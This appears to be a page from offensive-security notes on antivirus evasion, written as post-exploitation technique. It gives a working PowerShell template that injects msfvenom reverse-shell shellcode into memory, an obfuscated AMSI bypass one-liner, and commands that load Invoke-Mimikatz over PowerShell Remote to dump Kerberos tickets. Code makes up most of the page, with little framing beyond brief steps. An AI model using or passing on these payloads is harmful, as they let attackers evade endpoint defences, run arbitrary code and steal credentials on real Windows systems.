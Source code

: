 ```yaml
---
title: AV Evasion
category: Post Exploitation
order: 1
---
```


A basic template script that performs in-memory injection:

```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';
$winFunc = Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;
[Byte[]];
# msfvenom -p windows/shell_reverse_tcp LHOST=<ip_addr> LPORT=<port> -f powershell
[Byte[]]$sc = <place your shellcode here>;
$size = 0x1000;
if ($sc.Length -gt 0x1000) {$size = $sc.Length};
$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);
for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

Another way to bypass AV is using Shellter

![](/hackingnotes/images/shellter.png)


# String Replacement

FUTURE CONTENT


# AMSI bypass

AMSI bypass method to execute powershell scripts such as `Invoke-Mimikatz.ps1` with `PowerShell Remote`.

First we need to create a session on the target machine.

```powershell
$sess = New-PSSession -ComputerName srv01.corp.local
Enter-PSSession -Session $sess
```
Execute the following payload and exit the session.

```powershell
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```
Import the script remotely with `PowerShell Remote`:

```powershell
Invoke-Command -FilePath .\Invoke-Mimikatz.ps1 -Session $sess
```
Enter in the session again and execute the malicious script.

```powershell
Enter-PSSession -Session $sess
Invoke-Mimikatz -Command '"sekurlsa::tickets'
```

> **Note**: More bypasses are available on the following resource:
>
> https://gist.github.com/reigningshells/a255fcca07465befbcbf4be9cdf67560